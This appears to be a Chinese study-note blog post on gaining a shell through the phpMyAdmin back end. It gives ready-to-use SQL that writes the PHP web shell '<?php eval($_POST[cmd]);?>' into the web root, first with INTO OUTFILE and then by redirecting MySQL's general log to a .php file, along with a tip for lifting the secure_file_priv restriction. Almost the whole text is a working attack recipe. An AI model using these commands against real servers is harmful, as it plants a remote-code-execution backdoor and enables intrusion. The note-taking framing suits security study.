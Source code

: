 ```yaml
---
title: phpMyAdmin后台getshell学习笔记
tags:
  - PhpMyAdmin
abbrlink: 15322
date: 2022-05-11 19:56:35
---
```


# PhpMyAdmin后台getshell学习笔记

## 1.into outfile导入木马

- 首先需要确认网站的绝对路径

  ~~~~sql
  select @@basedir;
  ~~~~

- ~~~~sql
  select '<?php eval($_POST[cmd]);?>' into outfile 'web路径';
  ~~~~

  **mysql**高版本中secure_file_pirv会对读写进行限制

  ~~~sql
  show global variables like '%secure%';
  ~~~

  当`secure_file_priv`为NULL时，表示限制Mysql不允许导入导出。

  要想成功，则需要在Mysql文件夹下修改`my.ini` 文件，在[mysqld]内加入`secure_file_priv =""` 即可。

## 2.利用Mysql日志文件

mysql5.0以上会创建日志文件

1. **general_log** 指的是日志保存状态，ON代表开启 OFF代表关闭；

2. **general_log_file** 指的是日志的保存路径。

   查看日志状态：

   ~~~~sql
   show variables like '%general%';
   ~~~~

   当开启general时，**所执行的sql语句都会出现在`log`文件**。

   修改`general_log_file`的值，执行的sql语句就会对应生成，进而getshell。

   需要注意**路径斜杠的方向**

   ~~~~sql
   set global general_log = 'on'
   set global general_log_file = 'C:/phpStudy/www/hack.php'
   ~~~~

   再次执行，getshell

   ~~~
   select '<?php eval($_POST[cmd]);?>'
   ~~~
